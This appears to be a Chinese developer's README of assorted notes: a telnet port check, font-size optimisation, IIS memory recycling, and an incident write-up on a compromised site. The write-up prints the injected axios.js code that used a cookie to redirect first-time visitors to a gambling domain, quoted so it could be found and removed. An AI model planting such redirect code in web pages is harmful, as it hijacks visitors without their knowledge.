 # 使用windows检查某个远端端口是否开放
```shell script
# windows 开启Telnet 服务 命令行键入
telnet ip port
# 显示连接失败则不通，弹出空白窗口则通
```


# 字库过大优化方案
1. 可使用字蛛压缩字体库大小
>原理是通过分析页面使用的字符，生成一个只包含使用字符的字体库。
缺点是只适用于静态页面，或者不会有新字出现的页面
2. 只有常用字的字库
3. 字库采用异步加载


# 服务器被入侵网页首次访问调转到博彩网站
1. 查看cookie 发现

![](.README_images/cookie.png)

在浏览器中删除此cookie 刷新页面再次跳转，说明js被修改或注入
下载首页index.html 以及页面引入的js文件，本地访问依旧跳转，
添加如下代码，让 isfirstvisited 始终为 true，这样在排除注入代码前页面每次打开都会跳转
```javascript
  function setCookie(name, value) {
    var Days = 365 * 10;
    var exp = new Date();
    exp.setTime(exp.getTime() + Days * 24 * 60 * 60 * 1000);
    document.cookie = name + "=" + escape(value) + ";expires=" + exp.toGMTString();
  }
  setCookie('isfirstvisited', true)
```
1. 逐步注释index.html中引入的js文件，
2. 注释 axios.js 后 打开页面不再跳转，
3. 打开 axios.js 文件后发现被添加如下代码，删除后网页访问正常
```javascript
var c = document.cookie;
     if (c.indexOf('isfirstvisited=false') != -1) {
        
     }
     else {
         var d = new Date();
         d.setFullYear(d.getFullYear() + 1);
         document.cookie = 'isfirstvisited=false;expires=' + d.toGMTString();
         location = 'https://sdfhu1.com/671.html'
     }
```

服务器503 查看进程w3wp进程占用大量内存 ，设置iss应用程序池定时回收
![](.README_images/99950d90.png)
